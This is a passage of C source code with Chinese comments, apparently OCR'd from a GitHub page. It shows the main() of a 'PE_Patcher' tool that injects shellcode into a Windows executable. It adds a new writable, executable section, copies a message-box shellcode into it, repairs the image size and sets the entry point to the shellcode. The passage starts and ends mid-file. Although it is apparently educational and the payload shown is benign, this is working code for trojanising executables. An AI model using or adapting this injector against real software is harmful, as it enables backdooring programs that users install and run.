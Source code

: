 ```c
    else
    return false;

}

int main(int argc,char** argv){
    /*   前期条件判断  */
    if (argc != 2) {    //判断是否传参
            puts("[!] usage: ./PE_Patcher.exe [path/to/file]");
            return 0;
        }

	char* buff; DWORD fileSize;
	if (!readBinFile(argv[1], &buff, fileSize)) {   //文件是否被读取成功
		puts("[!] selected file not found.");
		return 0;
	}

    /* 计算最终所需内存空间*/
    puts("[+] malloc memory for outputed *.exe file.");
	size_t sectAlign = getNtHdr(buff)->OptionalHeader.SectionAlignment,
		fileAlign = getNtHdr(buff)->OptionalHeader.FileAlignment,
		finalOutSize = fileSize + P2ALIGNUP(sizeof(x86_nullfree_msgbox), fileAlign);
	char* outBuf = (char*)malloc(finalOutSize);
	memcpy(outBuf, buff, fileSize);

    /*向outBuf填充section内容*/
    puts("[+] create a new section to store shellcode.");
	//auto sectArr = getSectionArr(outBuf);
	IMAGE_SECTION_HEADER*  sectArr = getSectionArr(outBuf); 
	PIMAGE_SECTION_HEADER lastestSecHdr = &sectArr[getNtHdr(outBuf)->FileHeader.NumberOfSections - 1];
	PIMAGE_SECTION_HEADER newSectionHdr = lastestSecHdr + 1;
	memcpy(newSectionHdr->Name, "30cm.tw", 8); //对新加段头写入相关信息
	newSectionHdr->Misc.VirtualSize = P2ALIGNUP(sizeof(x86_nullfree_msgbox), sectAlign);
	newSectionHdr->VirtualAddress = P2ALIGNUP((lastestSecHdr->VirtualAddress + lastestSecHdr->Misc.VirtualSize), sectAlign);
	newSectionHdr->SizeOfRawData = sizeof(x86_nullfree_msgbox);
	newSectionHdr->PointerToRawData = lastestSecHdr->PointerToRawData + lastestSecHdr->SizeOfRawData;
	newSectionHdr->Characteristics = IMAGE_SCN_MEM_EXECUTE | IMAGE_SCN_MEM_READ | IMAGE_SCN_MEM_WRITE;
	getNtHdr(outBuf)->FileHeader.NumberOfSections += 1;

    /*写入shellcode*/
    puts("[+] pack x86 shellcode into new section.");
	memcpy(outBuf + newSectionHdr->PointerToRawData, x86_nullfree_msgbox, sizeof(x86_nullfree_msgbox));
   
    /*重新计算VA地址，可能旧编译器没设置好，重新修复一下*/
    puts("[+] repair virtual size. (consider *.exe built by old compiler)");
	for (size_t i = 1; i < getNtHdr(outBuf)->FileHeader.NumberOfSections; i++)
		sectArr[i - 1].Misc.VirtualSize = sectArr[i].VirtualAddress - sectArr[i - 1].VirtualAddress;
    
    /*和上面一样修复映射的内存大小*/
    puts("[+] fix image size in memory.");
	getNtHdr(outBuf)->OptionalHeader.SizeOfImage = //最后一个区块地址加上区块大小
		getSectionArr(outBuf)[getNtHdr(outBuf)->FileHeader.NumberOfSections - 1].VirtualAddress +
		getSectionArr(outBuf)[getNtHdr(outBuf)->FileHeader.NumberOfSections - 1].Misc.VirtualSize;
    /*设置EP为shellcode*/
    puts("[+] point EP to shellcode.");
	getNtHdr(outBuf)->OptionalHeader.AddressOfEntryPoint = newSectionHdr->VirtualAddress;
```